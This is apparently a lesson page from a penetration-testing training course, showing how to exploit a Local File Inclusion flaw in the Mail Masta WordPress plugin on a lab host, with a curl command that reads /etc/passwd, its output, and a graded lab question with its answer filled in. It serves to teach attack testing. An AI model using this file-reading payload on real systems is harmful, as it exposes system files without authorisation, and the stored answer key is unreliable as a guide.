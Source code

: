 
<h1>Exploiting a Vulnerable Plugin</h1>
<hr/>
<h2>Leveraging WPScan Results</h2>
<p>The report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called <code>Twenty Twenty</code>. WPScan identified two vulnerable plugins, <code>Mail Masta 1.0</code> and <code>Google Review Slider</code>. This version of the <code>Mail Masta</code> plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.</p>
<p>Let's verify if the LFI can be exploited based on this exploit-db <a href="https://www.exploit-db.com/exploits/40290/">report</a>. The exploit states that any unauthenticated user can read local files through the path: <code>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd</code>.</p>
<h4>LFI using Browser</h4>
<img alt="Text file showing user accounts with usernames, IDs, home directories, and shell paths." class="website-screenshot" data-url="view-source:http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd" src="/storage/modules/17/WP_lfi.png"/>
<hr/>
<p>We can also validate this vulnerability using cURL on the command line.</p>
<h4>LFI using cURL</h4>
<pre><code class="language-shell-session">[!bash!]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
</code></pre>
<p>We have successfully validated the vulnerability using the data generated in the <code>WPScan</code> report. Now let's try it out ourselves!</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                    </span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
</div>
</div>
<div>
<div>
<label class="module-question" for="8"><span class="badge badge-soft-dark font-size-14 mr-2">+ 1 <i class="fad fa-cube text-success"></i></span> Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control text-success" disabled="true" type="text" value="sally.jones"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="8" disabled="true" id="btnAnswer8">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
<div class="mb-4 mr-1">
<button class="btn btn-outline-warning btn-block" data-target="#hint8" data-toggle="modal" id="hintBtn8"><i class="fad fa-life-ring mr-2"></i> Hint
                                        </button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
